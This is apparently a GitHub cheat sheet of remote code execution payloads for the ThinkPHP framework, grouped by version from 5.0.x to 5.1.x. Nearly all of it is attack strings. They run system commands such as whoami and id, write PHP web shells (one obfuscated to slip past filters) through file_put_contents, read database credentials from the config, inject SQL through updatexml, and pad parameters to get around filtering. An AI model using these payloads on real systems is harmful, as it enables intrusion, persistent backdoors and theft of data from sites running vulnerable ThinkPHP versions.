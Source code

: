 # Tinkphp-RCE


#5.0.x

post：/?s=portal-index.php?s=captcha
_method=__construct&filter[]=phpinfo&method=GET&get[]=1
_method=__construct&method=get&filter[]=call_user_func&get[]=phpinfo
_method=construct&filter[]=assert&filter[]=file_put_contents('0.php',_decode('JTNDJTI1ZXZhbCUyMHJlcXVlc3QlMjAlMjglMjJwYXNzJTIyJTI5JTI1JTNF'))&server=-1
_method=__construct&filter[]=system&get[]=ipconfig
_method=__construct&filter[]=assert&server[REQUEST_METHOD]=phpinfo()
_method=__construct&filter[]=assert&method=get&server[REQUEST_METHOD]=phpinfo()

/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1
/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=psrntjiseqs.php&vars[1][]=<?php eval($_POST[1])?>

/index?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami

?s=index/think\config/get&name=database.username

#5.0.9 

_method=__construct&filter[]=assert&method=get&get[]=phpinfo()

_method=__construct&filter[]=assert&method=get&get[]=file_put_contents('a.php','<?php eval($_POST[a])?>')

#5.0.10

/index.php?s=index/index/index

post: s=ipconfig&_mehthod=__construct$method=&filter[]=system

#5.0.11

/public/index.php?s=index/index/index
data:?s=whoami&_method=__construct&method&filter[]=system

#5.0.15

public/index.php/index/index/?username[0]=inc&username[1]=updatexml(1,concat(0x7e,user(),0x7e),1)&username[2]=1

#5.0.23

POST ?s=index/index
_method=__construct&filter[]=system&server[REQUEST_METHOD]=calc

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls


bypass

/index.php?s=11&s=11s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1

/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=file_put_contents('hyck.php','<?php eval($_POST[hyck])?>')

index.php?s=index/\think\Request/input&cacheFile=spread.php&content=<?php @eval($_POST[spread]);?>

/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=./hyck.php&vars[1][]=Fuck_You_Admin<?php function sys(){return 'al($_';}@eval('ev'.sys().'POST[hyck]);');?>

#5.1.x

?s=index/\think\Request/input&filter[]=system&data=pwd
?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>
?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
